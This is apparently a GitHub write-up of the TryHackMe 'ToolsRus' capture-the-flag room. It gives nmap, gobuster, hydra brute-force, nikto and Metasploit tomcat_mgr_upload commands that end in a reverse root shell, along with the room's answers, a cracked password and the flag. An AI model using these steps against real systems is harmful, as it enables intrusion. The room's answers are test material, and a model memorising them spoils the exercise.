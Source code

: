 # ToolsRus Wlakthrough
### Link
- https://tryhackme.com/room/toolsrus
------------------------
### Nmap
- sudo nmap -sC -sV -p- [IP]
- Open port :   
    - 80
    - 1234 --> Apache Tomcat/Coyote JSP engine 1.1
    - 8009 --> Apache Jserv (Protocol v1.3)
- Picture: [ToolsRus_walkthrough_1.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_1.png)
- What other port that serves a webs service is open on the machine?
**Answers**: 1234
- What is the server version (run the scan against port 80)?
**Answer**: Apache/2.4.18
- What version of Apache-Coyote is this service using?
**Answer**: 1.1
------------------------
### Dirbuster
- sudo gobuster dir -u http://[IP]:[Port] -w [path]/wordlists/dirbuster/directory-list-2.3-medium.txt
- What directory can you find, that begins with a "g"?
**Answers**: /guidelines
- Whose name can you find from this directory?
**Answers**: bob
- What directory has basic authentication?
**Answer**: /protected
------------------------
### hydra
- sudo hydra -l bob -P  [path]wordlists/rockyou.txt -f 10.10.248.249 http-get /protected/
- What is bob's password to the protected part of the website?
**Answers**: bubbles
- Going to the service running on that port, what is the name and version of the software?
**Answer**: Apache Tomcat/7.0.88
------------------------
### nikto
- Log to manager with bob credentials
- sudo nikto -h http://10.10.23.90:1234/manager/html/ -id "bob:bubbles"
- How many documentation files did Nikto identify?
**Answer**: 5
------------------------
### Metasploit
- Search exploit for tomcat
    - search type:exploit name:tomcat
- Select exploit/multi/http/tomcat_mgr_upload
    - use exploit/multi/http/tomcat_mgr_upload
- Check settings we need to define
    - show options
- As we can see we have : HttpPasswrod / HttpUsername / RHOSTS / RPORT / LHOSTS
    - set HttpPassword bubbles
    - set HttpUsername bob
    - set RHOSTS [IP]
    - set RPORT 1234
    - set LHOSTS [local IP machine]
        - Let's double check if we indicate all information
- Execute the payload
    - execution
- When the payload is active, type these commands
    - shell
    - id
- What user did you get a shell as?
**Answer**: root
- What text is in the file /root/flag.txt
    - cd root
    - ls
    - cat flag.txt
**Answer**: ff1fc4a81affcc7688cf89ae7dc6e0e1